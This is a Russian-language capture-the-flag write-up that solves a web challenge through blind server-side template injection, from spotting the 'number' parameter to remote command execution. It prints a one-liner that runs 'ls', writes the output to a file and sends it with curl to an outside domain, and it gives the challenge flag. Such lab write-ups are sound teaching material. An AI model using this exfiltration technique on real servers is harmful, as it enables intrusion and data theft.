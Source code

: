 Нас встречает главная страница
![alt text](image.png)
1. Любое задание на веб начинаем с изучения кода страницы.
![alt text](image-1.png)
2. Из кода страницы узнаём, что для того чтобы отправлять числа надо формировать запрос с GET-параметром number. И находим подсказку про шаблоны. Очевидно, что это намёк на один из шаблонизаторов, осталось узнать какой используется, проведя несколько тестов. 
![alt text](image-2.png)
3. Однако сервер не возвращает нам прямого ответа, который мог бы подтвердить исполнение шаблона. 
![alt text](image-3.png)
Но мы не сдаёмся и отправляем на сервер тип данных не подходящий под число и видим, что сервер ответил нам «Это даже не число», из этого делаем вывод что шаблон, отправленный до этого, собрался в 49, и сервер посчитал его числом.
![alt text](image-4.png)

4. Blind SSTI
Находим нужный нам payload с rce и проверим выполнение через **curl** постучавшись, например, на burp collaborator. 
![alt text](image-5.png)
И видим успех. Запрос пришёл, а значит команды выполняются. 
![alt text](image-6.png)

Теперь запишем результат выполнения команды **ls** и вышлем с помощью **curl** файл с результатом.
```ls > test.txt; curl –d @test.txt “domain”```
И нам придёт результат выполнения 
![alt text](image-7.png)
Таким образом мы можем выполнить команды для поиска флага системе, например find и grep, после чего выслать его себе благодаря **curl**
**Флаг: RDGCTF{wh4t_ab0ut_fu11_bl1nd_sst1?}**
